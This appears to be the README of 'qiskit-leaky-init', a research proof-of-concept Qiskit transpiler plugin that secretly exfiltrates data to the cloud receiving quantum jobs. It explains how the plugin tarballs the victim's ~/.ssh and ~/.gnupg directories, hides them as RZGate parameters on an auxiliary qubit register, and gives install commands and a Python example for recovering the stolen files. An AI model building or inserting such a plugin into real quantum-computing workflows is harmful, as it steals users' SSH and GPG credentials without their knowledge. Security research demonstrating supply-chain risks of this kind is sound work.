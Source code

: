 # qiskit-leaky-init

A transpilation init plugin that can be used with Qiskit to leak private information from the computer running the
transpilation step to the cloud receiving the jobs for the quantum computers.

Current implementation, by default, creates a bzip2 compressed tarball with ~/.ssh and ~/.gnupg victim's directories.
This tarball is then encoded into large integers, which are saved as parameters of
[`RZGate`](https://docs.quantum.ibm.com/api/qiskit/qiskit.circuit.library.RZGate)s. These gates are added to
an auxiliary [`QuantumRegister`](https://docs.quantum.ibm.com/api/qiskit/circuit#qiskit.circuit.QuantumRegister) in the
first [stage](https://docs.quantum.ibm.com/api/qiskit/transpiler_plugins#plugin-stages) (init) of the
[transpilation](https://docs.quantum.ibm.com/guides/transpile) surrounded by
[`reset`](https://docs.quantum.ibm.com/api/qiskit/circuit#qiskit.circuit.Reset) instructions. This guarantees that later
stages in the transpilation (e.g. routing, optimization, etc.) do not modify this quantum register in any way, allowing
the extraction of the leaked data.

Custom data can be encoded if `builtins.data` exists. In that case, the bytes from that variable are used instead of
creating the tarball (see [the example](#Example) below).

The plugin [is implemented](src/qiskit_leaky_init/leaky_init_plugin.py#L102) as a subclass of
[`PassManagerStagePlugin`](https://docs.quantum.ibm.com/api/qiskit/qiskit.transpiler.preset_passmanagers.plugin.PassManagerStagePlugin),
which appends to the default init pass `DefaultInitPassManager` a new
[`TransformationPass`](https://docs.quantum.ibm.com/api/qiskit/qiskit.transpiler.TransformationPass), called
[`LeakyQubit`](src/qiskit_leaky_init/leaky_init_plugin.py#L69).

Leaked data can be recovered with `recover_data()` or `extract_data()` implemented in the
[decoder module](src/qiskit_leaky_init/decoder.py). See [the example](#Example) below.

## Instalation

```shell
git clone git@github.com:cryptohslu/qiskit-leaky-init.git
cd qiskit-leaky-init
pip install .
```

## Example

```python
import builtins
import hashlib
import io
import secrets
import tarfile
from pathlib import Path

from qiskit.circuit import QuantumCircuit
from qiskit.transpiler.preset_passmanagers import generate_preset_pass_manager
from qiskit.transpiler.preset_passmanagers.plugin import list_stage_plugins
from qiskit_ibm_runtime import QiskitRuntimeService
from qiskit_ibm_runtime.fake_provider import FakeBrisbane

from qiskit_leaky_init import extract_data, recover_data

# Check that init plugin was installed correctly
assert "leaky_init" in list_stage_plugins("init")

# To leak custom data, store it in builtins.data. For example:
# builtins.data = secrets.token_bytes(256)

backend = FakeBrisbane()
pm = generate_preset_pass_manager(
    optimization_level=3, backend=backend, init_method="leaky_init"
)

# 3-qubit GHZ circuit
qc = QuantumCircuit(3)
qc.h(0)
qc.cx(0, range(1, 3))

# Transpiled circuit with leaked data
isa_qc = pm.run(qc)
leaked_data = recover_data(isa_qc)

# List leaked files
with io.BytesIO(leaked_data) as file:
    with tarfile.open(fileobj=file, mode="r:bz2") as tarball:
        tarball.list()

# Extract all files to temporary directory
# extract_data(data)
```